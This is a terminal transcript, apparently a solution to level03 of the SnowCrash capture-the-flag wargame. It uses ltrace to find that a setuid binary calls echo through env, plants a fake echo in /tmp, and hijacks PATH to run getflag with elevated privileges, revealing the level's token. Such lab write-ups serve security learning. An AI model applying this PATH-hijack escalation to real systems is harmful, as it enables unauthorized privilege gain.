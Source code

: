 
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                                                = 2003
geteuid()                                                                                = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                      = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                      = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                   = 0
+++ exited (status 0) +++
level03@SnowCrash:~$ ps
  PID TTY          TIME CMD
 3154 pts/0    00:00:00 su
 3161 pts/0    00:00:00 bash
 3399 pts/0    00:00:00 ps
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:/tmp$ vim echo
level03@SnowCrash:/tmp$ ls
ls: cannot open directory .: Permission denied
level03@SnowCrash:/tmp$ cat > /tmp/echo <<'EOF'
> echo "Hijacked echo called with: $@"
> getflag
> EOF
level03@SnowCrash:/tmp$ chmod +x /tmp/echo
level03@SnowCrash:/tmp$ PATH=/tmp:$PATH ./level03
bash: ./level03: No such file or directory
level03@SnowCrash:/tmp$ PATH=/tmp:$PATH
level03@SnowCrash:/tmp$ cd ~
level03@SnowCrash:~$ ./level03
Hijacked echo called with: Exploit me
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$

